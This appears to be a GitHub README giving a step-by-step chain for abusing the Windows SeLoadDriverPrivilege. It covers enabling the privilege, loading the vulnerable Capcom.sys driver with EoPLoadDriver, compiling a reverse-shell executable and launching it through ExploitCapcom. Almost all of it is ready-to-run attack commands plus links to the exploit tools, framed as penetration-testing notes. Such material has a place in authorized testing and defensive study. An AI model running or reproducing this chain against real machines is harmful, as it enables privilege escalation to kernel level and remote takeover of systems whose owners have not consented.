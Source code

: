 # SeLoadDriverPriv
Some stuff that can be handy to abuse SeLoadDriverPriv

## Get Priv
In order to get the privilege, we need to spawn a high integrity process
- Option 1: Load PowerShell or cmd.exe as Administrator (no Administrator group membership required!) - Lesson learned from Wh04m1
- Option 2: Use elevate.exe to spawn cmd (https://github.com/PaoJiao/elevate)
```
elevate.exe cmd.exe
```

## Enable Privilege
```
. .\Enable-SeLoadDriverPrivilege.ps1
Enable-Privilege SeLoadDriverPrivilege
```

## Compile EoPLoadDriver
```
.\EoPLoadDriver.exe System\CurrentControlSet\Capcom C:\pentest\SeLoadDriverPrivilege\Capcom.sys
```

## Generate Reverse Shell
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /t:exe /out:C:\pentest\SeLoadDriverPrivilege\rev.exe C:\pentest\SeLoadDriverPrivilege\rev.cs
```

## Exploit vulnerable driver
```
.\ExploitCapcom.exe C:\pentest\SeLoadDriverPrivilege\rev.exe
```

References

- [https://github.com/PaoJiao/elevate](https://github.com/PaoJiao/elevate)
- [https://github.com/TarlogicSecurity/EoPLoadDriver/](https://github.com/TarlogicSecurity/EoPLoadDriver)
- [https://github.com/tandasat/ExploitCapcom](https://github.com/tandasat/ExploitCapcom)
- [https://github.com/FuzzySecurity/Capcom-Rootkit](https://github.com/FuzzySecurity/Capcom-Rootkit)




